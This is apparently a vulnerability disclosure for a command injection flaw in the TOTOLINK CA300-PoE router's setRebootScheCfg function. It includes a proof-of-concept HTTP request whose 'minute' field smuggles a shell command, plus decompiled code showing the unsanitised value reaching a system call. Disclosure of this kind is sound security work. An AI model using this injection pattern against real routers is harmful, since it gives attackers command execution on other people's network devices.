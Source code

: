 # TOTOLINK  CA300-PoE V6.2c.884 was discovered to contain a command injection vulnerability via the minute parameter in the function setRebootScheCfg

## Description

`TOTOLINK` Router **CA300-PoE V6.2c.884** was found to contain a command injection vulnerability in `setRebootScheCfg`.

## ![image-20230112103759214](images/1.png)

## Firmware information

* Manufacturer's address:https://www.totolink.net/
* Firmware download address : https://www.totolink.net/home/menu/detail/menu_listtpl/download/id/139/ids/36.html



## Affected version

**Version: V6.2c.884**

![image-20230112103905821](images/2.png)

## Vulnerability details

POC1:

```
POST /cgi-bin/cstecgi.cgi HTTP/1.1
Host: 192.168.0.254
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:108.0) Gecko/20100101 Firefox/108.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 100
Origin: http://192.168.0.254
Connection: keep-alive
Referer: http://192.168.0.254/adm/network_daig.asp?timestamp=1673492576260
Cookie: SESSION_ID=2:1673492439:2

{"topicurl" :"setting/setRebootScheCfg","mode" : "1", "minute": "';mkdir /minute_1111;'"}
```

Folder created successfully

![image-20230112222517805](images/3.png)

```
int __fastcall setRebootScheCfg(int a1, int a2, int a3)
{
  int mode_v; // $s5
  int week_v; // $s3
  const char *hour_v; // $fp
  const char *minute_v; // $s7
  int recHour_v; // $s0
  int v9; // $v0
  int v11; // $v0
  int i; // $s0
  _BYTE *v13; // $v0
  char *v14; // $a0
  int v15; // $s0
  int v16; // $s0
  char v19[256]; // [sp+2Ch] [-244h] BYREF
  char v20[128]; // [sp+12Ch] [-144h] BYREF
  char v21[128]; // [sp+1ACh] [-C4h] BYREF
  int v22[16]; // [sp+22Ch] [-44h] BYREF

  memset(v20, 0, sizeof(v20));
  memset(v21, 0, sizeof(v21));
  memset(v19, 0, sizeof(v19));
  mode_v = websGetVar(a2, "mode", "0");
  week_v = websGetVar(a2, "week", "");
  hour_v = (const char *)websGetVar(a2, "hour", "");
  minute_v = (const char *)websGetVar(a2, "minute", "");
  recHour_v = websGetVar(a2, "recHour", "0");
  cs_uci_set("system.reboot.mode", mode_v);
  cs_uci_set("system.reboot.week", week_v);
  cs_uci_set("system.reboot.hour", hour_v);
  cs_uci_set("system.reboot.minute", minute_v);
  cs_uci_set("system.reboot.recHour", recHour_v);
  cs_uci_commit("system");
  strcpy(v19, "sed -i /reboot/d /etc/crontabs/root");
  CsteSystem(v19, 0);
  CsteSystem("killall sche_reboot", 0);
  v9 = atoi(mode_v);
  if ( v9 == 1 )                                // mode=1
  {
    v11 = atoi(week_v);
    if ( v11 == 255 )
    {
      strcpy(v21, "*");
    }
    else if ( v11 )
    {
      for ( i = 1; i != 8; ++i )
      {
        if ( ((atoi(week_v) >> i) & 1) != 0 )
        {
          sprintf(v20, (const char *)&dword_4404, i);
          strcat(v21, v20);
          strcat(v21, &dword_4408);
        }
      }
      v13 = (_BYTE *)strrchr(v21, 44);
      if ( v13 )
        *v13 = 0;
    }
    sprintf(v19, "echo '%s %s * * %s reboot -f'>> /etc/crontabs/root", minute_v, hour_v, v21);
    v14 = v19;
LABEL_13:
    CsteSystem(v14, 0);
    goto LABEL_3;
  }
  if ( v9 == 2 )
  {
    v15 = atoi(recHour_v);
    if ( v15 > 0 )
    {
      sysinfo(v22);
      v16 = 3600 * v15 - v22[0];
      if ( v16 <= 0 )
      {
        cs_cmd("reboot", 16464, 1);
        goto LABEL_3;
      }
      CsteSystem("killall sche_reboot", 0);
      sprintf(v20, "sche_reboot %ld &", v16);
      v14 = v20;
      goto LABEL_13;
    }
  }
LABEL_3:
  cs_cmd("/etc/init.d/cron", "restart", 2);
  websSetCfgResponse(a1, a3, "0", "reserv");
  return 0;
}
```

![image-20230112223054684](images/4.png)

![image-20230112223826938](images/5.png)